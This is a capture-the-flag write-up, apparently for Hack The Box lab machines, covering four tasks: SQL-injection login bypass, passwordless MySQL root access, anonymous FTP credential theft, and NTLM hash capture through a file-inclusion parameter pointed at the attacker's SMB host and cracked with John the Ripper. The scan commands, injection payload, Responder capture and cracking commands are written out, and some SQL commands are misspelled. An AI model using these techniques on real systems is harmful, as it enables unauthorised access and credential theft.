## Task 1

### 🗄️ Structured Query Language (SQL)

### What is SQL Injection?

SQL Injection is a type of vulnerability that allows attackers to interfere with the queries an application makes to its database. It can be used to:

-  **Bypass login authentication**
-  **View, modify, or delete data in the database**
-  **Perform administrative operations**
-  **Even gain full control over the server**

The top 10 classification SQL injection, A03: 2021-Injection have high risks.

### Process of task 1
1. Scan port using nmap to the target machine cause we need to get the information of the port:
    ```bash
    nmap -sV -Pn 10.129.183.140
    ```
   

   From this image , it shows that there is one port open which is tcp and the service is http.

   This means that it is a website.
   
2. I tried to open the wesite to check if it is work or not and we found that we can get into the website:
   ```bash
   http://10.129.183.140
   ```
    
   
3. I tried to use the method of SQL injection by using  '1 = 1;--' , which means let login always true.
   
   This works because `1 = 1` is always true, and the `--` sequence comments out the rest of the SQL query.
   
   This tricks the application into logging you in without a valid password.
   
   And i found that i can log into the website , and then we get the flag.
   
    ```bash
    #i type 1=1; -- in the login part and log in successfully
   1 = 1; -- 
   ```


--

### Task 2 
### Process of solving task 2
1. We need to scan the target mechine (10.129.124.197) and get the port information by using nmap.
   At first , i tried nmap to scan the target mechine and i found that it is too slow.
   ```bash
    sudo nmap -p- -Pn -sV 10.129.124.197
   ```
   Therefore, i added '--min-rate=1000' to increase the scanning speed.
   
   ```bash
    sudo nmap -p- -Pn --min-rate=1000 -sV 10.129.124.197
    ```
   
   
2. According to the response, we can know that the service is mysql. So we need to find the command of mysql.
    ```bash
    #'-u root' means use the username root
    #'-h' means connect to the IP address which is 10.129.124.197
    mysql -u root -h 10.129.124.197
    ```
 

The response shows that it connect to mysql server.

3. When we connect to mysql server, it will not automatically get into any database.
  
   So we need to use SHOWDATABASE to see what's database inside.

   **SHOWDATABASE** this is a tool to list all databases the current user has permission to see.

   

    From this response , we can see there are 4 different databases inside. 

4. **USE<database_name>** this is to use a spefic use of the database.

    I tried htb so i type 
    ```bash
    USE<htb>
    ```
    and it turned into the htb database.

5. **SHOWTABLE** we need to know how many tables in the database, so we use SHOWTABLE to see the tables in the database.
    ```bash
    SHOWTABLE
    ```
    

   From the result , we can see there are 2 different tables (config and user) in htb database.

6. **SELECT * FROM** This is a tool to select all the files in the tables.
    ```bash
    #select all the files in the config table
    SELECT * FROM config
    ```

   

According to the result, we can find the flag:  7b4bec00d1a39e3dd4e021ec3d915da8 .

-- 

### Task 3
### Process of solving Task 3
1. use nmap to scan the port
   ```bash
    # Target machine: 10.129.1.15
    # sudo: required because -sS (SYN scan) needs raw socket access
    # -p-: scan all TCP ports (not just the default 1000)
    # -sS: SYN scan (faster and more stealthy than a full TCP connect scan)
    # -Pn: skip host discovery (assume the host is up even if ping fails)
    # --min-rate=1000: send at least 1000 packets per second to speed up scanning
    # -oN: save the output in normal text format to full_scan.txt for later reference
    sudo nmap -p- -sS -Pn --min-rate=1000 -oN full_scan.txt 10.129.1.15
    ```
2. After scanning the port , i got the result of
   ```bash
   21/tcp  open  ftp
   ```

   This means that there is a port open and the service of the port is ftp.

   Therefore, we use ftp command.

3. login ftp to the traget mechine:

    ```bash
   ftp 10.129.1.15
   ```

    We get the response and use anonymous
   
    ```bash
    Name: anonymous  
    Password: <press enter>
    ```
    -> 230 Login successful

4. After log in , i use 'ls' to show all documents in ftp.
   we get two different documents: One is allowed.userlist, and the other is              allowed.userlist.passwd.

   I used 'CAT' command to download the documents.

    ```bash
    cat allowed.userlist
    cat allowed.userlist.passwd
    ```
    
5. After download the allowed.userlist.passwd, i found that there are three different password     at allowed.userlist.passwd.
    

6. I tried http://10.129.15 and found that can not open the website, because we got the         password and the admin so i think that it might have some login website in the target mechine.
   I used Gobuster to find the login page.
    ```bash
    gobuster dir -u http://10.129.1.15 -w /usr/share/wordlists/dirb/common.txt -x php
    ```

   The result shows: 
   ```bash
   Found: login.php
   ```
   This means it have another website called login.php

   Therefore, i type http://10.129.1.15/login.php and opened the website
    

7. I tried to type the login user: admin , and tried three passwords that i found before:

   And then i got the flag:

   

--

### Task 4
1. scan the target mechine (10.129.95.234) by using nmap.
   ```bash
   nmap -sV -Pn 10.129.95.234 -oN scan.txt
   ```

   i got the result after scanning:
   
   <pre>
    PORT   STATE SERVICE VERSION

    80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m **PHP/8.1.1**)
   </pre>

    By the result, i can see there is one port open, the service is http.

    The version that the port is using is Apache , and PHP is a script language.
   
3. Therefore, i tried to open the website by using http://10.129.95.234.
   
   We can see that it cannot open by using http://10.129.95.234.
   
   And the url redirected to http://unilka.htb.
   
   This means that the website is using virtual hosting, where the server requests with the        correct host name(unika.htb) instead of using the ip address.

5. Therefore, i need to map the domain name to the IP address on my local machine.
   ```bash
   #sudo : run this command as an administrator
   #nano : edit text file firectly in the terminal
   sudo nano /etc/hosts
   ```
   We open the edit file and add unika.htb at the last line.

   click contol+O to save and click enter , click control + X to exit.

   The meanning of using sudo nano is because we can open he file with administrator (root)        permission so you can edit and save system files like /etc/hosts.

6. After saving the file, i tried open http://unilka.htb again.
   
   I can log in the page successfully:
   

7. Use Gobuster to find any hide webpage in unika.htb.
   ```bash
   # gobuster dir: tells gobuster to perform a brute-force scan
   # -u http://unika.htb/ : target url (http://unika.htb/)
   # /usr/share/wordlists/ : wordlist to choose
   # -x php,txt,html : File extension to look for
   # -o gobuster_result.txt: save the output to a file for later analysis 
   gobuster dir -u http://unika.htb/ -w /usr/share/wordlists/dirbuster/directory-list medium.txt -x php,txt,html -o gobuster_result.txt
   ```
   

   I found the index.php.

   (knowledge questions):
   
   NTLM (New Technology LAN Manager)
   
   In responder rool : we use -I to tell responder which website do we run
   
9. Install John the Ripper, it helps crack the NTLM hash you captured, so you can find the real password.
    ```bash
    sudo apt update
    sudo apt install john -y
    ```

10. Found a vulnerable parameter: page http://unika.htb/index.php?page=somefile
    
    This means it loads a file based on the page value

    I change the page into SMB: http://unika.htb/index.php?page=\\10.10.14.6\somefile

    And open the responder on my machine:
    
    ```bash
    sudo responder -I tun0
    ```
    
10. Try connect the target machine to my own machine, the responder show the hash:
    administrator::HTB:1122334455667788:6F1F8A9B21F07F3289D65EABDFE8465D:01010000000000000000000000000000000000000000000000000000000000000000000000000000
    

11. Create the hash.txt and paste the hash that we found into hash.txt

    We need to use John the Ripper to break the hash table
    
     ```bash
     # /snap/bin/john : use John the Ripper
     # --format=netntlmv2: ask the format is NetNTLMv2
     # --wordlist=~/rockyou.txt: use the usual dictonary rockyou.txt
     # hash.txt: do break to the hash.txt
    /snap/bin/john --format=netntlmv2 --wordlist=~/rockyou.txt hash.txt

    ```

12. Use ip a to show the VPN address:
    

13. Start the responder tool to listen for incomming connection from the terget machine and capture NTLMv2 authentication hashes.

     ```bash
     # ../responder-env/bin/python : use Python from tour virtual enviorment to run the Responder.py script
     # -I tun 0 : listen the tun 0 interface 
     sudo ../responder-env/bin/python Responder.py -I tun0
     ```
    We do this is because we trick the target into requesting tile from my machine

    When the target tried to load the file, it will send NTLM authentication

    The responder will catch this connection and save the NTLMv2 hash.

    I can use the John the ripper to crack the hash and get the password.
    
14. open http://unika.htb/index.php?page=//10.10.14.60/test
   
    The responder will get the connection information
    
     

15. From this step, we get the username, client and the password.

    Password: baminton

    We use namp to scan wbvill-winm to check what service are avaliable, what OS the machine is using and where potential vulnerabilities may exist.

     ```bash
     nmap wvill-winm
     ```

16.  It shows: cd C:\Users\mike\Desktop

     I used dir see the directories.

      

    We can see there is a flag.txt

17. We use 'GET' command to download the file:

    And we found the flag: ea81b7afddd03efaa0945333ed147fac

-- 


    
    
